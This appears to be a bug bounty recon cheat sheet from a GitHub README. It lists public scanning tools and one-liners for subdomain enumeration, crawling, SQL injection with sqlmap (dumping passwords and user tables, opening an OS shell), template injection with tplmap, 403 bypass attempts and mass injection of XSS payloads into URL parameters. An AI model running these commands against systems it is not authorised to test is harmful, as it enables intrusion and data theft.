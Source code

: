 ## Recon of Recon

## Credits

[OFJAAAH](https://github.com/OFJAAAH)<br>
[c4ng4c3ir0 ](https://github.com/c4ng4c3ir0)<br>

## Tools

[Subfinder](https://github.com/projectdiscovery/subfinder)<br>
[Sqlmap](https://github.com/sqlmapproject/sqlmap)<br>
[Katana](https://github.com/projectdiscovery/katana)<br>
[Gospider](https://github.com/jaeles-project/gospider)<br>
[Httpx](https://github.com/projectdiscovery/httpx-toolkit)<br>
[Qsreplace](https://github.com/tomnomnom/qsreplace)<br>
[Airixss](https://github.com/ferreiraklet/airixss)<br>
[Uro](https://github.com/s0md3v/uro)<br>
[Nuclei](https://github.com/projectdiscovery/nuclei)<br>
[Freq](https://github.com/takshal/freq)<br>
[Hakrawler](https://github.com/hakluke/hakrawler)<br>
[Findomain](https://github.com/Edu4rdSHL/findomain)<br>
[Anew](https://github.com/tomnomnom/anew)<br>
[WayBackUrls](https://github.com/tomnomnom/waybackurls)<br>
[gf](https://github.com/tomnomnom/gf)<br>
[waybackrobots](https://github.com/vodafon/waybackrobots)<br>
[Dalfox](https://github.com/hahwul/dalfox)<br>
[XssTrike](https://github.com/s0md3v/XSStrike)<br>
[Gau](https://github.com/lc/gau)<br>
[Subzy](https://github.com/PentestPad/subzy)<br>
[Whatweb](https://www.kali.org/tools/whatweb/)<br>
[Nikto](https://github.com/sullo/nikto/tree/master)<br>
[Tplmap](https://github.com/epinna/tplmap)<br>
[Parabellum](https://github.com/wtechsec/Parabellum-XSS-Scanner/tree/main)<br>
[FFUF](https://github.com/ffuf/ffuf)<br>
[Dirsearch](https://github.com/maurosoria/dirsearch)<br>
[FuzzingTemplates](https://github.com/projectdiscovery/fuzzing-templates/tree/main)<br>
[Byp4xx](https://github.com/Rizsyad/byp4xx)<br>
[Assetfinder](https://github.com/tomnomnom/assetfinder)<br>
[Hakcheckurl](https://github.com/hakluke/hakcheckurl)<br>
[Mantra](https://github.com/MrEmpy/mantra)<br>
[JSScanner](https://github.com/0x240x23elu/JSScanner)<br>


###  Dorks. 

```bash
inurl:responsible disclosure program
inurl:vulnerability disclosure program
inurl:vulnerability program rewards
inurl:security report vulnerability
inurl:bugbounty reward program 
```


###  HTTP200. 

```bash
subfinder -d $(cat url) | httpx -silent -sc -t 1000 | anew http200;
```

###  WaybackRobots. 

```bash
cat http200 | waybackrobots -d $(cat url) -raw | anew wayROBOTS;
```

###  Sqlmap. 

```bash
findomain -t $(cat url) -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1 | anew sqlmap;

python sqlmap.py -u "www.exemplo.com?id=1" --batch --banner
python sqlmap.py -u "www.exemplo.com?id=1" --batch --passwords
python sqlmap.py -u "www.exemplo.com?id=1" --batch --dbs
python sqlmap.py -u "www.exemplo.com?id=1" --batch --tables -D testdb
python sqlmap.py -u "www.exemplo.com?id=1" --batch --dump -T users -D testdb
python sqlmap.py -u "www.exemplo.com?id=1" --batch --os-shell
```

###  Whatweb. 

```bash
whatweb $(cat url) | anew whatweb;
```


###  Subfinder. 

```bash
subfinder -d $(cat url) -silent -all | httpx -silent | anew subfinder;
```

###  SSTI. 

```bash
echo $(cat url) | httpx -silent | hakrawler -subs | grep "=" | qsreplace '{{7*7}}' | freq | anew ssti;
```


###  SubzyTakeOver. 

```bash
subzy run --targets subfinder | anew subzytakeover;
```


###  Katana crawling. 

```bash
cat subfinder | katana -d 5 -silent | grep -iE '\.js'| grep -iEv '(\.jsp|\.json)' | anew KatanaCrawling1;

cat subfinder | katana -d 5 -silent -em js,jsp,json | anew KatanaCrawling2;
```


###  Dalfox. 

```bash
sudo dalfox url https://testphp.vulnweb.com/listproducts.php?cat=
```

###  Parabellum. 

```bash
sudo python3 Parabellum-XSS-Scanner.py
```


###  Nikto. 

```bash
cd nikto/program
./nikto.pl -h http://www.example.com
```

###  Tplmap. 

```bash
python2.7 ./tplmap.py -u '<http://www.target.com/page?name=John*>' --os-shell
python2.7 ./tplmap.py -u "<http://192.168.56.101:3000/ti?user=*&comment=supercomment&link>"
python2.7 ./tplmap.py -u "<http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link>" --level 5 -e jade
```

###  Crt.sh. 

```bash
curl -s "https://crt.sh/?q=$(cat url)&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | httpx -title -silent | anew crtsh;
```

###  BYP4XX. 

```bash
python3 byp4xx.py --url https://$(cat url) --dir secret --header | anew byp4xxheader;
python3 byp4xx.py --url https://$(cat url) --dir secret --protocol | anew byp4xxprotocol;
python3 byp4xx.py --url https://$(cat url) --dir secret --port | anew byp4xxport;
python3 byp4xx.py --url https://$(cat url) --dir secret --method | anew byp4xxmethod;
python3 byp4xx.py --url https://$(cat url) --dir secret --encode | anew byp4xxencode;
python3 byp4xx.py --url https://$(cat url) --dir secret --all | anew byp4xxall;
```


###  XssTrike. 

```bash
sudo python3 xsstrike.py -u http://testphp.vulnweb.com/

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\=

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\= -f payforce.txt
```

### FuzzingTemplates.

```bash
nuclei -t fuzzing-templates -list allurls | anew fuzzingtemplates;
```

### Dirsearch.

```bash
sudo python3 dirsearch -u https://target.com | anew dirsearch;
```


###  Gau. 

```bash
gau $(cat url) | grep "\.js" | anew gau
```


###  Gospider. 

```bash
gospider -d 0 -s $(cat url) -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew gospider
```

###  FFUF. 

```bash
ffuf -w /usr/share/wordlists/wfuzz/general/big.txt -u https://$(cat url)/FUZZ -mc all -c -v | anew ffuf
```


###  Xss1. 

```bash
echo $(cat url) | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not' | anew xss1;
```



###  Xss2. 

```bash
echo $(cat url) | httpx -silent | katana -d 10 -silent | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss2;
```



###  Xss3. 

```bash
echo $(cat url) | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss3;
```


###  Xss4. 

```bash
gau $(cat url) | httpx -silent | qsreplace '<script>alert(1)</script>' | freq | egrep -v 'Not' | anew xss4;
```


###  OpenRedirect gf. 

```bash
echo $(cat url) | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew openRedirect
```


###  Nuclei. 

```bash
echo $(cat url) | subfinder -silent | httpx -p 80,443,81,300,591,593,832,981,1010,1311,1099,2082,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5108,5280,5281,5601,5800,6543,7000,7001,7396,7474,8000,8001,8008,8014,8042,8060,8069,8080,8081,8083,8088,8090,8091,8095,8118,8123,8172,8181,8222,8243,8280,8281,8333,8337,8443,8500,8834,8880,8888,8983,9000,9001,9043,9060,9080,9090,9091,9200,9443,9502,9800,9981,10000,10250,11371,12443,15672,16080,17778,18091,18092,20720,32000,55440,55672 | nuclei -severity low,medium,high,critical | anew nuclei
```

